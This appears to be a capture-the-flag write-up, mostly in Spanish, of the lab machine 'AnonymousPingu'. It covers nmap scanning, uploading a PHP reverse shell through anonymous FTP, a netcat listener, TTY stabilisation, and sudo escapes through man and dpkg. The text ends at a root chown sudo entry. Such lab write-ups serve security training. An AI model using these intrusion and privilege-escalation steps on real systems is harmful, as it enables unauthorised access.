





# AnonymousPingu

## Port Enumeration

We started our scan using the Nmap tool during the discovery phase. We found the following open ports:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2  
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64

```

## Examining ports

More precise scan of the FTP port:

```ruby
    nmap -p21 -T4 --min-rate 1000 --script vuln,ftp-anon,ftp-bounce,ftp-syst 172.17.0.2
```


Vemos que parece los ficheros de una pagina web , hay un directrio muy interesante que se llama 
"upload". Posiblemente tengamos que subir algun fichero para hacer una shell reversa.

## Examining the Web Page and Its Infrastructure
Si examinamos la pagina nos esntoramos lo siguiente:



Lo mas importante en la barra es el menu "Acceder al backend" si pinchamos nos dirige a la carpeta upload:

## Intrusion

Para hacer la intrusion he usado este script de github de "pentestmonkey"

https://github.com/pentestmonkey/php-reverse-shell

Por lo tanto he usado la herramienta ftp para subir el fichero reverse.php configurando nuestra IP y nuestro puerto
y usando la herrameinta netcat para hacer la conexion.



Si nos ponemos en escucha por el puerto 1234 con netcat:

```ruby
nc -lvnp 1234
```

y ejecutamos en el neavegador el archivo .php nos devuleve la shell


Por lo tanto estamos autenticados como el usuario "data"

# Tratamiento de la TTY

Para que nos sea más comodo vamos a hacer un tratamiento a la terminal para que no haya errores en algunos comados 
y funcionen.

Para ello lo primero ejecutamos la siguiente orden :

```ruby 
script /dev/null -c bash
```
Pulsamos ctlr + Z salimos de la terminal y hacemos el siguientes comandos:

```ruby 
stty raw -echo;fg
reset xterm
export TERM=xterm
export SHELL=bash
```

tendremos una terminal mas comoda.

## Escalation privilege

Para la escalada de privilegios vamos a utilizar el siguiente comando:
```ruby
sudo -l
``
Vemos los comandos que podemos ejecutar como root u otros usarios usando sudo:
```ruby
$ sudo -l
Matching Defaults entries for www-data on debddace088e:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on debddace088e:
    (pingu) NOPASSWD: /usr/bin/man
```

Por lo tanto si ejecutamos la siguiente comando podemos hacerlo como el usuario pingu

```ruby
sudo -u pingu man man
```
Dentro del manual podemos ejecutar la siguiente 
```ruby
!/bin/bash
```
Vemos que nos mudamos de usuario y accedemos como pingu 



Si ejecutamos la orden anterior vemos nuevos comandos que podemos ejecutar como el ususario gladys 

```ruby
Matching Defaults entries for pingu on 34882fa66e15:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User pingu may run the following commands on 34882fa66e15:
    (gladys) NOPASSWD: /usr/bin/nmap
    (gladys) NOPASSWD: /usr/bin/dpkg

```

Si vamos a la pagina de GTObins vemos que podemos explotarlar de la siguiente manera:

```ruby
sudo -u gladys dpkg -l
!/bin/sh
```

Ganamos acceso con el usuario "gladys" de forma similar a la anterior.


Si volvemos a ejecutar el comando  `sudo -l` 

```ruby
Matching Defaults entries for gladys on 34882fa66e15:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User gladys may run the following commands on 34882fa66e15:
    (root) NOPASSWD: /usr/bin/chown
```
